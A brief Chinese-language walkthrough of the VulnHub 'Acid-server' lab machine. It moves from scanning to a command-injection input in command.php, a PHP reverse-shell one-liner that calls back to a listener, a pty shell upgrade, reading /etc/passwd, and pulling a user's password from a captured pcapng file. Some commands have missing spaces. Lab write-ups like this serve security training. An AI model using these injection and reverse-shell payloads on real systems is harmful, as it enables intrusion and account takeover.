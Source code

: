 # VulnHub: Acid-server
- https://www.vulnhub.com/entry/acid-server,125/

## Walkthrough
### Step 1
> nmap掃描虛擬機ip及port，發現位於33447/tcp是開啟狀態，service為http
### Step 2
> 利用DirBuster暴力掃目錄，從cake.php中找出/Magic_Box
> 掃/Magic_Box，發現command.php
### Step 3
首先ping172.16.71.1;id發現命令成功注入，嘗試獲取shell
監聽3333port

`$ nc -l 3333`

用php反彈shell成功，最後payload:

`172.16.71.1;php-r '$sock=fsockopen("172.16.71.1",4444);exec("/bin/sh-i<&3 >&3 2>&3");'`

### Step 4
發現su指令無法執行，出現錯誤訊息su:must be run from a terminal
用python調用本地shell

`$ python -c 'import pty;pty.spawn("/bin/bash")'`

### Step 5
查找用戶，發現三個可疑帳號acid、saman、root

`$ cat/etc/passwd`

嘗試找尋用戶的可疑文件

`$ find-useracid2>/dev/null`

發現pcapng可疑流量檔案，下載回本地查看
### Step 6
利用wireshark打開hint.pcapng
找到saman密碼1337hax0r
### Step 7
利用find找到flag.txt，成功！
